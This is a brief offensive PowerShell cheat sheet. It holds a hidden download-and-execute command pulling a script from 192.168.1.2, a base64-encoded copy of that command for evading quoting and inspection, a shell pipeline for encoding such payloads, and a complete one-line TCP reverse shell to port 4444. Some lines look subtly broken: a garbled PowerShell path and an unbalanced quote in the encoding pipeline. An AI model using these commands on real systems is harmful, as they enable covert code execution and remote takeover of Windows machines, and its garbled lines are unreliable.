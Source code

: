=== Powershell

  C:\Windows\sjswow64\WindowsPowerShell\vl.O\powershell.exe

Location of 64bit ppowershell

  powershell.exe -w hidden -noni -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.2/script.ps1');"

Download a powershell script to memory and run it.

  powershell.exe -w hidden -noni -nop -enc SUVYKE5ldy1PYmplY3QgTmV0LldlYkNsaWVudCkuRG93bmxvYWRTdHJpbmcoJ2h0dHA6Ly8xOTIuMTY4LjEuMi9zY3JpcHQucHMxJyk7Cg==

Same as above, but doesn't use either quote type.

  echo | iconv -f utf-8 -t utf-16 -c | sed 's/^\xff\xfe// | base64 -w 0

Convert powershell to utf-16, strip the first two marker bytes, then convert it to base64 for the -enc command.

  $client = New-Object System.Net.Sockets.TCPClient('192.168.1.2',4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close();

Reverse shell

<<<

